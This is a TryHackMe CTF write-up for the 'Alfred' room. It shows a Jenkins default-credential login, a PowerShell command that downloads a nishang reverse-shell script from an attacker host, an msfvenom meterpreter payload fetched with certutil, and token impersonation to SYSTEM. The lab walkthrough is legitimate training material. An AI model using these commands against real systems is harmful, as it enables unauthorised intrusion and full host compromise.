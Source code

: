 ```yaml
---
title: "Alfred"
date: 2025-03-15
draft: false
summary: "Writeup for Alfred CTF challenge on TryHackMe."
tags: ["windows", "jenkins", "token impersonation"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/alfred/cover.webp"
  caption: "Alfred TryHackMe Challenge"
  alt: "Alfred cover"
platform: "TryHackMe"
---
```


Alfred involves exploiting Jenkins to gain an initial shell, then escalate our privileges by exploiting Windows authentication tokens.
<!--more-->
To access **Alfred**, click on the link given below:
- https://tryhackme.com/room/alfred

## Scanning

I performed an **nmap** aggressive scan on the target to identify the open ports and the services running on them.

```shell
nmap -A -p- TARGET --min-rate 10000 -Pn -oN alfred.nmap
```

![](https://cdn.ziomsec.com/alfred/1.webp)

## Initial Foothold

The target had  http service running on port 80 and 8080, so I accessed them through my browser.

![](https://cdn.ziomsec.com/alfred/2.webp)

I found a **jenkins** login page on port 8080.

![](https://cdn.ziomsec.com/alfred/3.webp)

I also viewed the *robots.txt* file that was identified by the **nmap** scan but found nothing. The default username used by `Jenkins` is `admin`, so I tried some default credentials and logged in using `admin:admin`

![](https://cdn.ziomsec.com/alfred/4.webp)

Jenkins is a tool that is used to build and test software automatically. It is used in devops and has the ability to build and run commands as part of a job or pipeline. Since I got access to it, I could execute code to get a reverse shell. I downloaded the `Invoke-PowerShellTcp.ps1` script from **nishang**.
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

I then started an http server to host the powershell script.

```shell
python3 -m http.server 80
```

![](https://cdn.ziomsec.com/alfred/5.webp)

On **Jenkins**, I created a new project -> new build and then added a command for it to download the reverse shell script and send a shell to my system.

![](https://cdn.ziomsec.com/alfred/6.webp)

I used the following command:

```
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER_IP -Port ATTACKER_PORT)
```

![](https://cdn.ziomsec.com/alfred/7.webp)

Finally, I started a **netcat** listener and built the project.

![](https://cdn.ziomsec.com/alfred/8.webp)

![](https://cdn.ziomsec.com/alfred/9.webp)

I got a reverse shell from the target and captured the user flag from *`C:\Users\bruce\Desktop`*.

![](https://cdn.ziomsec.com/alfred/10.webp)

![](https://cdn.ziomsec.com/alfred/11.webp)

## Privilege Escalation

I viewed my privileges and found that I had `SeImpersonatePrivilege`. This allowed me to impersonate certain logged-in users.

```shell
whoami /priv
```

![](https://cdn.ziomsec.com/alfred/12.webp)

**Metasploit**'s **incognito** module could be used to exploit this, so I created a payload using **msfvenom** and executed it on the target to get a **meterpreter** shell.

```shell
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe -o rev.exe
# start a web server
$ python3 -m http.server 8080
```

![](https://cdn.ziomsec.com/alfred/13.webp)

![](https://cdn.ziomsec.com/alfred/14.webp)

> The payload can be downloaded on the target using `certutil.exe -urlcache -split -f http://ATTACKER:PORT/rev.exe`

![](https://cdn.ziomsec.com/alfred/15.webp)

After getting **meterpreter** shell, I loaded the **incognito** module for token impersonation.

```shell
load incognito
```

![](https://cdn.ziomsec.com/alfred/16.webp)

I then listen available tokens and Found `NT AUTHORITY\SYSTEM`. I then impersonated the account and got SYSTEM access.

```shell
$ list_tokens -u
$ imperosnate_token "NT AUTHORITY\SYSTEM"
$ getuid
```

![](https://cdn.ziomsec.com/alfred/17.webp)

I had a 32 bit session so I upgraded it to 64 bit by migrating to a 64 bit process. This was required because a 32 bit meterpreter process cannot host 64 bit code or fully interact with 64 bit only parts of Windows.

```
$ pgrep services.exe
$ migrate 668
$ sysinfo
```

Finally, I captured the root flag from `C:\Windows\System32\config\root.txt`

```shell
$ cat C:/Windows/System32/config/root.txt
```

![](https://cdn.ziomsec.com/alfred/18.webp)

## Closure

Here's a short summary of how I pwned Alfred:
- I discovered a Jenkins instance running on port 8080.
- I was able to log into Jenkins using `admin:admin`
- I ran a job to run `Invoke-PowerShellTcp.ps1` and got a reverse shell.
- I captured the first flag from `bruce`'s Desktop.
- Additional enumeration revealed that I had `SeImpersonatePrivilege`
- I used an **msfvenom** payload to get a **meterpreter** shell.
- I used the `incognito` module to get the NT Authority token.
- I captured the final flag from `System32` directory.

---
